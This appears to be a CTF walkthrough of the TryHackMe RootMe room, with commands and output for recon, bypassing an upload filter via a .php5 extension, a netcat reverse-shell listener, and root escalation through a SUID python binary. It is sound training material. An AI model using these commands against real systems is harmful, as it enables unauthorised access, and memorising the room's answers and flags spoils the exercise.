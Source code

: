 
# RootMe CTF – Walkthrough

This is my full process and solution for the [TryHackMe RootMe room](https://tryhackme.com/room/rrootme).  
It includes recon, exploitation, privilege escalation, and both flags.

---

## 📑 Table of Contents
1. [Target Info](#target-info)  
2. [Task 1 – Deploy the Machine](#task-1--deploy-the-machine)  
3. [Task 2 – Reconnaissance](#task-2--reconnaissance)  
4. [Gaining Initial Access](#gaining-initial-access)  
5. [Stable Shell Upgrade](#stable-shell-upgrade)  
6. [Initial Enumeration](#initial-enumeration)  
7. [Home Directory Inspection](#home-directory-inspection)  
8. [Privilege Escalation](#privilege-escalation)  
   - [Sudo Check](#-sudo)  
   - [SUID Binaries](#-suid-binaries)  
   - [Exploitation via Python SUID](#-exploitation-via-python-suid)  
9. [Captured Flags](#captured-flags)  
10. [Room Complete](#room-complete-)  
11. [Lessons Learned](#lessons-learned)  

---

## Target Info
**Domain:** rootme.thm  
**IP:** 10.10.227.19  

---

## Task 1 – Deploy the Machine
_No answer needed._

---

## Task 2 – Reconnaissance

### 🔍 Nmap Scan

```bash
nmap -sV -sC -oA scans/nmap-initial rootme.thm
````

```
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.13 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
```

### ✅ Answers

* **How many ports are open?** → `2`
* **What version of Apache is running?** → `2.4.29`
  ⚠️ *Note: THM expects `2.4.29`, but actual version is `2.4.41`. See `docs/ctf-integrity-fail.md`.*
* **What service is running on port 22?** → `ssh`
* **What is the hidden directory?** → `/panel/`

---

## Gaining Initial Access

### 🔍 Upload-Based Exploitation

* Discovered upload form at: `http://rootme.thm/panel/`
* Uploaded `test.txt` → confirmed at `/uploads/test.txt`
* Tried `shell.php` → ❌ blocked
* Renamed to `shell.php5` → ✅ success

### Reverse Shell

Listener on attacker box:

```bash
nc -lvnp 4444
```

Triggering payload:

```bash
http://rootme.thm/uploads/shell.php5
```

Result:

```bash
$ whoami
www-data
```

---

## Stable Shell Upgrade

```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

Then:

* Background with `Ctrl+Z`
* On local terminal:

```bash
stty raw -echo
fg
```

* Press `Enter` → fully interactive TTY shell.

---

## Initial Enumeration

```bash
id
whoami
uname -a
hostname
```

```
uid=33(www-data) gid=33(www-data) groups=33(www-data)
Linux ip-10-10-227-19 5.15.0-139-generic ...
```

---

## Home Directory Inspection

```bash
ls -l /home
```

Found users:

* `rootme`
* `test`
* `ubuntu`

*No obvious `user.txt` in `/home/*`.*

---

## Privilege Escalation

### 🔐 Sudo

```bash
sudo -l
```

→ Prompted for password
→ 3 failed attempts
→ `www-data` has **no sudo privileges**

---

### 🔍 SUID Binaries

```bash
find / -perm -4000 -type f 2>/dev/null
```

Interesting results:

* `/usr/bin/python2.7` ✅
* `/usr/bin/python` ✅ (symlink to `python2.7`) ← **THM expected answer**
* `/usr/bin/at`, `pkexec`, `passwd`, etc. → normal

**Question:** Which file is weird?
**Answer:** `/usr/bin/python`

---

### 🧨 Exploitation via Python SUID

From [GTFOBins – Python](https://gtfobins.github.io/gtfobins/python/):

```bash
/usr/bin/python -c 'import os; os.execl("/bin/sh", "sh", "-p")'
```

Success:

```bash
# whoami
root
# id
uid=33(www-data) gid=33(www-data) euid=0(root) groups=33(www-data)
```

---

## Captured Flags

```bash
# cat /root/root.txt
THM{pr1v1l3g3_3sc4l4t10n}

# find / -type f -name "user.txt" 2>/dev/null
/var/www/user.txt

# cat /var/www/user.txt
THM{y0u_g0t_a_sh3ll}
```

---

## Room Complete ✅

* **Initial access:** Upload bypass via `.php5`
* **PrivEsc:** SUID misconfiguration on `/usr/bin/python`
* **Flags captured:** `user.txt` + `root.txt`
* Room objectives fully complete

---

## Lessons Learned

* **Upload restrictions ≠ security** → Simply changing the extension from `.php` to `.php5` bypassed the filter. Always validate uploads on the server side.
* **SUID binaries are dangerous** → Leaving `/usr/bin/python` with the SUID bit allowed direct root shell escalation. This is a classic misconfiguration.
* **Enumeration is key** → Finding hidden directories with GoBuster and scanning SUID binaries with `find` made exploitation straightforward.
* **CTF Integrity Check** → Sometimes version numbers reported differ from what the room expects (`2.4.41` vs. `2.4.29`). Always test, but don’t be surprised if CTF answers are slightly “off.”
* **Process > Flags** → The real value of this room was practicing upload bypass, webshell deployment, and privilege escalation through GTFOBins. The methodology transfers directly to real-world pentesting.



